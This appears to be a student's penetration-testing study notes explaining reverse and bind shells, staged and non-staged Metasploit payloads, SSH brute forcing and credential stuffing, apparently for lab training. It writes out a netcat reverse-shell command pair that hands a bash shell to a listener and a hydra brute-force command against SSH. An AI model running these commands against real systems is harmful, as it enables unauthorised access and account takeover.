 ## Reverse Shell vs Bind shell
### Netcat Reverse Shell
- Most common
	- You use it 95% of the time
- A shell gives you access to a machine
	- Attackbox listens - target connects
- A reverse shell is a shell that allows a victim to connect to you
	- You can have netcat active on the attackbox listening on a port, and the target connects to your IP on the same port via netcat
- Port forward or port trigger is needed to connect the target's public IP to the attackbox's private IP
- Example connection
	- Attacker: `nc -nvlp 4444`
	- Target: `nc 192.168.57.6 4444 -e /bin/bash`
- ![Netcat Reverse Shell](assets/Screenshot%20from%202025-09-03%2013-56-41.png)
### Netcat Bind Shell
- Less common
	- Mostly on external assessments
- Most useful when you need to bypass a firewall or when reverse shell isn't working
- The attackbox connects to the target
	- Attackbox connects - target listens
- We open a port on the target via an exploit, then connect to it via netcat
- No need for port forwarding since we connect the attackbox's public IP to the target's private IP
- ![Netcat Bind Shell](assets/Screenshot%20from%202025-09-03%2013-44-18.png)

## Staged vs Non-Staged Payloads
- A payload is what you run as an exploit
- There are different types of payloads
	- Windows payloads
	- Linux payloads
	- Meterpreter payload
		- An attack payload used in [[Hacking Tools#Metasploit |Metasploit]]
		- There are at least 500 payloads in [[Hacking Tools#Metasploit |Metasploit]] alone
- The main difference between a non-staged and a staged payload's syntax is the forward slash `/`
	- Non-staged
		- `windows/meterpreter_reverse_tcp`
	- Staged
		-  `windows/meterpreter/reverse_tcp`
### Staged payloads
- Sends exploit shell payload in stages
- Can be less stable than non-staged
### Non-Staged payloads
- Sends exploit shell code all at once
- Large in size than staged
- Doesn't always work
- ![Staged vs Non-staged](assets/Screenshot%20from%202025-09-04%2011-40-25.png)

## Brute Force
### SSH
- You can brute force attack it in a few ways
	- Using hydra
		- Syntax: `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.57.4:22 -t 4 -V`
			- -P is a password list
			- -t is the number of consecutive attempts or threads
			- -V is verbose
	- Using metasploit
		- Search for an auxiliary ssh login scanner
		- Use the found scanner
		- Check and set the options
		- The required options will be very similar to hydra
- You can use weak or default credentials to test password strength
- The assessment includes if the blue team can catch you
# Credential Stuffing and Password Spraying
### Credentials stuffing
- It's the act of injecting breached account credentials in hopes of an account takeover
- These credentials can be acquired from [[Reconnaissance#^ce5358|leaks]]
# Notes
- If a payload fails, try the other type
	- You send a non-staged payload and it fails, try a staged payload
	- Your failed payload was a reverse shell? Try a bind shell